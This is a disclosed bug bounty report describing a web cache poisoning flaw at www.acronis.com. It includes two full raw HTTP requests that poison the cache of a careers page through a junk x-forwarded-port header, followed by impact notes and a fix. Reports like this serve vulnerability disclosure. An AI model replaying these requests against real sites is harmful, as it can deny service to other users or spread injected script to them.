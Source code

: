 # Web cache poisoning at www.acronis.com

## Report Details
- **Report ID**: 1010858
- **URL**: https://hackerone.com/reports/1010858
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-18T05:25:11.081Z
- **Disclosed**: 2021-06-17T09:25:56.736Z

## Reporter
- **Username**: 9529
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
I found the problem of cache poisoning in www.acronis.com. A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on.

## Steps To Reproduce

1. Use x-forwarded-port to destroy the cache, repeat the request until www.acronis.com:0 appears in the response  
```
GET /zh-cn/careers/?yig1bt7ai4=1 HTTP/1.1
Host: www.acronis.com
Connection: close
sec-ch-ua: "Chromium";v="86", "\"Not\\A;Brand";v="99", "Google Chrome";v="86"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.80 Safari/537.36 yig1bt7ai4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9, text/yig1bt7ai4
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.acronis.com/zh-cn/cloud/cyber-protect/
Accept-Encoding: gzip, deflate, yig1bt7ai4
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
x-forwarded-port: zwrtxqvas9lm4kzkia
Origin: https://yig1bt7ai4.com
```

2. Remove the parameters, x-forwarded-port, and origin in the request header. Then send the request, the cache has been polluted (due to the cache hit, it may take several more requests).  
```
GET /zh-cn/careers/ HTTP/1.1
Host: www.acronis.com
Connection: close
sec-ch-ua: "Chromium";v="86", "\"Not\\A;Brand";v="99", "Google Chrome";v="86"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.80 Safari/537.36 yig1bt7ai4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9, text/yig1bt7ai4
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.acronis.com/zh-cn/cloud/cyber-protect/
Accept-Encoding: gzip, deflate, yig1bt7ai4
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
```

3.Other users visit the /zh-cn/careers/ page, and the result has been poisoned.
4.The currently discovered causes of cache poisoning:
  - url params (if there is reflected XSS on the server side, it will be very dangerous)
  - x-forwarded-port header
  - x-forwarded-url header

## Recommendations
Cache poisoning is caused by different requests hitting the same cache. Remove these influencing factors, or only cache requests with unchanged results.

## Impact

1. Launch a denial of service attack
2. If a page contains url parameters or request header reflection XSS, cache poisoning can easily spread the page containing malicious code to other people without the need to communicate with the victim

More ways to exploit:
https://portswigger.net/research/practical-web-cache-poisoning
https://portswigger.net/research/web-cache-entanglement

## Attachments
No attachments
